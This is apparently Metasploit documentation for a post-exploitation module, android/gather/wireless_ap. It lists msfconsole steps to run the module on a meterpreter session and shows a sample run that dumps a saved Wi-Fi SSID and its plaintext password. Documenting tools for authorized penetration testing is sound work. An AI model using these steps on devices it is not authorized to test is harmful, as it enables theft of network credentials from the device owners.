 ## Vulnerable Application

  This post-exploitation module will extract saved wireless AccessPoint
  credentials from the target device.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use android/gather/wireless_ap`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted bssids and passwords of wireless
     APs

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - Wireless AP creds

## Example Scenario


  ```
  msf5 exploit(multi/handler) > use post/android/gather/wireless_ap
msf5 post(android/gather/wireless_ap) > set session 1
session => 1
msf5 post(android/gather/wireless_ap) > run

[!] SESSION may not be compatible with this module.
Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPS       lkjhgfdsa


[*] Post module execution completed
msf5 post(android/gather/wireless_ap) >
  ```
